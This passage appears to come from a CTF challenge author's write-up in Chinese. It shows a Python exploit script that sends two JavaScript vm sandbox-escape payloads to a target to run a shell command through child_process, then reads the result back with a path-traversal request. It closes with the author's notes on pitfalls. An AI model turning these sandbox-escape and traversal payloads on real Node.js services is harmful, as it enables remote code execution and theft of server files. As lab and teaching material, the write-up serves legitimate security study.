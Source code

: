 ``` python
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('cat /flag > ./img/flag.txt');
};
"""

rcecode2 = """
async function fn() {
    (function stack() {
        new Error().stack;
        stack();
    })();
}
p = fn();
p.constructor = {
    [Symbol.species]: class FakePromise {
        constructor(executor) {
            executor(
                (x) => x,
                (err) => { return err.constructor.constructor('return process')().mainModule.require('child_process').execSync('cat /flag > ./img/flag.txt'); }
            )
        }
    }
};
p.then();"""

payload2 = f'?vmtoken={token}&code={rcecode2}'
resp2 = s.get(baseURL+attackURL2+payload2)
if resp2.status_code == 200:
    print(f'[+]rce success')
else:
    print(f'[-]rce fail')
    s.close()
    exit(1)

# Get flag
attackURL3 = '/show'
payload3 = '?path=.jpg./../flag3.txt'

resp3 = s.get(baseURL+attackURL3+payload3)

if resp3.status_code == 200:
     print(f'[+]now get flag: {resp3.text}')
# else:
#     print(f'[-]fail to get flag')
#     s.close()
#     exit(1)

s.close()
```



### 我的出题踩坑点

- CRLF的影响：解决方案=>使用python脚本实现网络交互，这样会比直接在浏览器GUI下操作更加细腻

- 两个payload进行RCE的效果不同，一个只能RCE一次（还没调试过）